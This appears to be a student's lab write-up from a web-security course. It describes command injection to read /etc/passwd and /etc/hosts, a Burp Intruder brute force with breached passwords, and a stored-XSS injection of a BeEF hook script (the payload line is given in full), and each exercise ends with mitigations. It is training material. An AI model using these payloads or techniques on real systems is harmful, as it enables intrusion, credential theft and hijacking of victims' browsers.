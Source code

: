 Unit 15: Web Vulnerabilities and Hardening

Web Application 1: Your Wish is My Command Injection

This page is a new web application built by Replicants in order to enable their customers to ping an IP address. The web page will return the results of the ping command back to the user.
This type of injection attack is called Command Injection, and it is dependent on the web application taking user input to run a command against an operating system.
Now that you have determined that Replicants new application is vulnerable to command injection, you are tasked with using the dot-dot-slash method to design two payloads that will display the contents of the following files:

/etc/passwd

![](Images/Web_Vuln1.png)

/etc/hosts

![](Images/Web_Vuln2.png)

Mitigation Strategies:

    Limit input from user and input validation.  In this case the web application is calling for IP address/es, input should be limited to IP address/es strings and should return an error for anything that is otherwise specified.  Restrict web server accessibility following the principle of least privilege to prevent confidential information access.


Web Application 2: A Brute Force to Be Reckoned With
Complete the following steps to set up the activity.

Open a browser on Vagrant and navigate to the webpage http://192.168.13.35/install.php.
This page is an administrative web application that serves as a simple login page. An administrator enters their username and password and selects Login.

If the user/password combination is correct, it will return a successful message.

If the user/password combination is incorrect, it will return the message, "Invalid credentials."


Years ago, Replicants had a systems breach and several administrators passwords were stolen by a malicious hacker. The malicious hacker was only able to capture a list of passwords, not the associated accounts' usernames. Your manager is concerned that one of the administrators that accesses this new web application is using one of these compromised passwords. Therefore, there is a risk that the malicious hacker can use these passwords to access an administrator's account and view confidential data.
Use the web application tool Burp Suite, specifically the Burp Suite Intruder feature, to determine if any of the administrator accounts are vulnerable to a brute force attack on this web application.

You've been provided with a list of administrators and the breached passwords:

List of Administrators

Breached list of Passwords

Generate a login request and capture the traffic using Burp Suite.  Send the HTTP request to Burp Intruder.

![](Images/Web_Vuln3.png)

Identify the payload positions which is the username and password 

![](Images/Web_Vuln4.png)

Update the Burp Intruder username payload for payload set 1

![](Images/Web_Vuln5.png)

Updated the Burp Intruder password payload for payload set 2

![](Images/Web_Vuln6.png)

Successful brute force attack. Image showing the successful payload combination.

![](Images/Web_Vuln7.png)

Mitigation Strategies:
        
        Complex username and password,  Multi-Factor authentication, CAPTCHA to slow down credential stuffing, prevent automated login and lock accounts after several failed attempts.

Web Application 3: Where's the BeEF?

Task details:

The page you will test is the Replicants Stored XSS application which was used the first day of this unit: http://192.168.13.25/vulnerabilities/xss_s/
The BeEF hook, which was returned after running the sudo beef command was: http://127.0.0.1:3000/hook.js
The payload to inject with this BeEF hook is: <script src="http://127.0.0.1:3000/hook.js"></script>
When you attempt to inject this payload, you will encounter a client-side limitation that will not allow you to enter the whole payload. You will need to find away around this limitation.

Max Character set limit is 50.

![](Images/Web_Vuln8.png)

Increase max character limit to 75 to successfully inject script.

![](Images/Web_Vuln9.png)

Verify that the script is successfully embedded.

![](Images/Web_Vuln10.png)

Social Engineering >> Pretty Theft

![](Images/Web_Vuln11.png)

Social Engineering >> Fake Notification Bar

![](Images/Web_Vuln12.png)

Mitigation Strategy:

    Service-side input validation to prevent scripts from being stored on web applications.
